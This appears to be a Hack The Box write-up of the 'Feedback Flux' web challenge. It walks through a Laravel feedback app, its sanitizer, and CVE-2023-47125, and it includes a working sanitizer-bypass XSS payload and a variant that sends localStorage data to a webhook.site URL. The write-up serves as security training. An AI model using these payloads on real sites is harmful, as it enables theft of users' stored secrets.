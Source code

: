 ```yaml
---
title: Feedback Flux - Hack The Box
date: 2024-12-27
---
```


# Feedback Flux

## Challenge Description

You're a member of fsociety tasked with infiltrating E Corp's Feedback Flux system. There's a vulnerability hidden deep
within their feedback platform, and it's your job to find and exploit it.

## Challenge Overview

When we navigate to the challenge, we are presented with a feedback form that allows us to submit feedback. The feedback
form includes a text area for the message and a submit button to send the feedback to the server. We also have the list
of feedbacks that have already been submitted.

![Feedback Flux - Overview](/ctf/hack-the-box/challenges/web/feedback-flux/overview.png)

## Code Overview

### Technologies used

- [Laravel](https://laravel.com/) Laravel is a web application framework with expressive, elegant syntax.
- [PHP](https://www.php.net/) PHP is a popular general-purpose scripting language that is especially suited to web
  development.
- [MySQL](https://www.mysql.com/) MySQL is an open-source relational database management system.

### Feedback Form Submission

When we submit feedback, the server processes the feedback and stores it in a database.

```php
public function store(Request $request)
{
    $data = $request->validate([
        'feedback' => ['required', 'string']
    ]);

    $commonAttrs = [
        new Behavior\Attr('id'),
        new Behavior\Attr('class'),
        new Behavior\Attr('data-', Behavior\Attr::NAME_PREFIX),
    ];
    $hrefAttr = (new Behavior\Attr('href'))
        ->addValues(new Behavior\RegExpAttrValue('#^https?://#'));
    
    $behavior = (new Behavior())
        ->withFlags(Behavior::ENCODE_INVALID_TAG | Behavior::ENCODE_INVALID_COMMENT)
        ->withoutNodes(new Behavior\Comment())
        ->withNodes(new Behavior\CdataSection())
        ->withTags(
            (new Behavior\Tag('div', Behavior\Tag::ALLOW_CHILDREN))
                ->addAttrs(...$commonAttrs),
            (new Behavior\Tag('a', Behavior\Tag::ALLOW_CHILDREN))
                ->addAttrs(...$commonAttrs)
                ->addAttrs($hrefAttr->withFlags(Behavior\Attr::MANDATORY)),
            (new Behavior\Tag('br'))
        )
        ->withNodes(
            (new Behavior\NodeHandler(
                new Behavior\Tag('typo3'),
                new Behavior\Handler\ClosureHandler(
                    static function (NodeInterface $node, ?DOMNode $domNode): ?DOMNode {
                        return $domNode === null
                            ? null
                            : new DOMText(sprintf('%s says: "%s"',
                                strtoupper($domNode->nodeName),
                                $domNode->textContent
                            ));
                    }
                )
            ))
        );
    
    $visitors = [new CommonVisitor($behavior)];
    $sanitizer = new Sanitizer($behavior, ...$visitors);
    $data['feedback'] = $sanitizer->sanitize($data['feedback']);

    Feedback::create($data);

    AdminBot::dispatch();
    return to_route('feedback.create')->with('message', 'Feedback submitted!');
}
```

The server sanitizes the feedback using a [`typo3/html-sanitizer`](https://github.com/TYPO3/html-sanitizer) package
before storing it in the database. Then a job is dispatched to the queue to notify the admin about the new feedback.

### Admin Bot

The `AdminBot` job is responsible for storing the flag in the local storage of the browser. The flag is read from the
`/flag.txt` file and stored in the local storage of the browser. The bot then navigates to the feedback page and waits
for 2 seconds before closing the browser.

```php
public function handle(): void
{
    $flagPath = '/flag.txt';
    if (!file_exists($flagPath) || !is_readable($flagPath)) {
        Log::error("Flag file not found or unreadable at $flagPath");
        return;
    }

    $flag = trim(file_get_contents($flagPath));
    $browserFactory = new BrowserFactory();
    $domain = '127.0.0.1';

    $browser = $browserFactory->createBrowser([
        "noSandbox" => true,
    ]);

    try {
        $page = $browser->createPage();

        $page->navigate('http://127.0.0.1:8000')->waitForNavigation();

        $page->evaluate(sprintf(
            'localStorage.setItem("flag", "%s"); console.log("Flag stored in localStorage");',
            $flag
        ));
        $page->evaluate('console.log("Flag in localStorage:", localStorage.getItem("flag"));');
        $page->navigate('http://127.0.0.1:8000/feedback')->waitForNavigation();

        usleep(2000000);

    } catch (\Exception $e) {
        Log::error("Error in AdminBot job: " . $e->getMessage());
    } finally {
        $browser->close();
    }
}
```

Let's find the vulnerability in the feedback form and exploit it to get the flag.

## Finding the Vulnerability

Looking at the `composer.json` file, who is in Laravel the file that contains the dependencies of the project, we can
see that the `typo3/html-sanitizer` package is being used.

```json
{
    "require": {
        ...
        "typo3/html-sanitizer": "2.1.3",
        ...
    }
}
```

Surfing on the web we found a CVE related to the `typo3/html-sanitizer` package.
The [CVE-2023-47125](https://github.com/advisories/GHSA-mm79-jhqm-9j54) is a vulnerability who allows to bypass the HTML
sanitizer and execute arbitrary JavaScript code.

## Exploiting

To exploit the vulnerability, we need to craft a payload that will bypass the HTML sanitizer and execute JavaScript
code. To do this, we found this [issue](https://github.com/Masterminds/html5-php/issues/241) on github that explains how
to bypass the sanitizer.

To bypass the sanitizer, we need to create a POC that will trigger the vulnerability. We can use the following payload
to trigger a XSS.

```html
<?xml ><img src=x onerror=alert(1)> ?>
```

Going on the `/feedback` page after submitting the feedback, we can see that the payload is executed and the alert is
shown.

![Feedback Flux - XSS](/ctf/hack-the-box/challenges/web/feedback-flux/xss.png){style="display: block; margin: 0 auto"}

Now that we have a working XSS payload, we can craft a payload that will steal the flag from the local storage of the
browser. To do this, we can use the (`Webhook`)[https://webhook.site/] service to send the flag to our webhook.

```html
<?xml ><img src=x onerror=fetch("https://webhook.site/your-webhook-url?flag=" + localStorage.getItem("flag"))> ?>
```

::: warning

Don't forget to replace `your-webhook-url` with your webhook URL.

:::

After submitting the feedback, we can see that the flag is sent to our webhook.

![Feedback Flux - Flag](/ctf/hack-the-box/challenges/web/feedback-flux/flag.png)

Using the same technique, we can steal the real flag.

![Feedback Flux - Pwned](/ctf/hack-the-box/challenges/web/feedback-flux/pwned.png)
